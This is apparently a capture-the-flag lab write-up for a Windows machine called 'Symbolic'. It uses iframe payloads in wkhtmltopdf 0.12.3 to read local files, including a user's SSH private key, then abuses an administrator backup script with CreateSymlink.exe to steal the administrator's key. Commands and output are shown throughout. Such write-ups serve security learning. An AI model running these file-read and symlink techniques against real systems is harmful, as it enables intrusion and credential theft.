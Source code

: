 # Symbolic

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.177
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 20:55 +08
Nmap scan report for 192.168.202.177
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

SSH was open on this machine, which was unusual for Windows.&#x20;

### WebPage to PDF --> LFI

Port 80 was rather simple:

<figure><img src="../../../.gitbook/assets/image (9) (2) (7).png" alt=""><figcaption></figcaption></figure>

I created a HTML file with one word within it, then hosted it on my HTTP server and submitted the URL with my IP. This returned a PDF:

<figure><img src="../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to enumerate any version:

```
$ exiftool ac354a9d4d469ef971709095540b2f42.pdf 
ExifTool Version Number         : 12.57
File Name                       : ac354a9d4d469ef971709095540b2f42.pdf
Directory                       : .
File Size                       : 6.6 kB
File Modification Date/Time     : 2023:07:06 21:03:17+08:00
File Access Date/Time           : 2023:07:06 21:03:17+08:00
File Inode Change Date/Time     : 2023:07:06 21:03:25+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.3
Producer                        : Qt 4.8.7
Create Date                     : 2023:07:06 06:02:52-07:00
Page Count                      : 1
```

Googling exploits for this version show that LFI is a possibility:

{% embed url="https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/" %}

{% embed url="https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/" %}

The exploit here is the content of the HTML file being used. Here's my PoC:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts">
```

When we host this HTML file on a HTTP server and use the website's converting feature, this is what we are returned:

<figure><img src="../../../.gitbook/assets/image (13) (7) (1).png" alt=""><figcaption></figcaption></figure>

This confirms that LFI works. We can edit the PoC to show all the content:

```html
<iframe src="C:/Windows/system32/drivers/etc/hosts" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (19) (2) (2).png" alt=""><figcaption></figcaption></figure>

Now, we just need to find the correct file to read. The website gives us a username `p4yl0ad`, and SSH is open, so let's try to read the user's private key.

```markup
<iframe src="C:/users/p4yl0ad/.ssh/id_rsa" height=1000 width=1000 />
```

<figure><img src="../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as the user:

<figure><img src="../../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Script --> Symbolic Link Write

There was a `C:\backup` directory with a script in it:

```
p4yl0ad@SYMBOLIC C:\backup>dir 
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\backup

03/10/2023  11:59 AM    <DIR>          .
03/10/2023  11:59 AM    <DIR>          ..
10/11/2021  09:11 PM               207 backup.ps1
07/06/2023  06:09 AM    <DIR>          logs

p4yl0ad@SYMBOLIC C:\backup>type backup.ps1 
$log = "C:\xampp\htdocs\logs\request.log" 
$backup = "C:\backup\logs"

while($true) {
        # Grabbing Backup
        copy $log $backup\$(get-date -f MM-dd-yyyy_HH_mm_s)
        Start-Sleep -s 60
}
```

There was a backup directory being updated, and this script was running once every minute or so. The script is also owned by the administrator:

```
p4yl0ad@SYMBOLIC C:\backup>icacls backup.ps1
backup.ps1 SYMBOLIC\Administrator:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We also have write access over `C:\xampp\htdocs\logs\request.log`, meaning that we can create a symbolic link to make the script read and copy any file we want. Again, since SSH is open, we can attempt to get the admin's private key.&#x20;

First we need to delete the `logs` directory:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs>del logs 
C:\xampp\htdocs\logs\*, Are you sure (Y/N)? y
```

We cannot create a symbolic link to the private SSH key using conventional means because we aren't given access:

```
p4yl0ad@SYMBOLIC C:\backup>powershell -c New-item -ItemType SymbolicLink -Path "C:/xampp/htdocs/logs/request.log" -T
arget "C:/users/administrator/.ssh/id_rsa"
New-item : Access is denied
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], Unauthoriz  
   edAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.NewItemCommand        
 
New-item : Cannot find path 'C:\users\administrator\.ssh\id_rsa' because it does not exist.
At line:1 char:1
+ New-item -ItemType SymbolicLink -Path C:/xampp/htdocs/logs/request.lo ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\users\administrator\.ssh\id_rsa:String) [New-Item], ItemNotFound  
   Exception
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.NewItemCommand
```

We can create a junction however:

```
p4yl0ad@SYMBOLIC C:\xampp\htdocs\logs>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 5C30-DCD7

 Directory of C:\xampp\htdocs\logs

07/06/2023  06:22 AM    <DIR>          .
07/06/2023  06:22 AM    <DIR>          ..
07/06/2023  06:22 AM    <JUNCTION>     request.log [C:\Users\Administrator\.ssh\id_rsa]
```

But the above won't work. What worked was `CreateSymlink.exe` from this repo:

{% embed url="https://github.com/googleprojectzero/symboliclink-testing-tools" %}

We can download and upload that binary. Then, we can run it:

```
p4yl0ad@SYMBOLIC C:\Windows\Tasks>.\CreateSymlink.exe "C:\xampp\htdocs\logs\request.log" "C:\users\administrator\.ss
h\id_rsa"
Opened Link \RPC Control\request.log -> \??\C:\users\administrator\.ssh\id_rsa: 00000174 
Press ENTER to exit and delete the symlink
```

I waited for a while and then deleted the symlink. When we check the `C:\backup\logs` directory's newest file that is significantly larger than the rest, we find an SSH key:

<figure><img src="../../../.gitbook/assets/image (13) (7).png" alt=""><figcaption></figcaption></figure>

Then, use this key to `ssh` in as the administrator:

<figure><img src="../../../.gitbook/assets/image (2) (7).png" alt=""><figcaption></figcaption></figure>
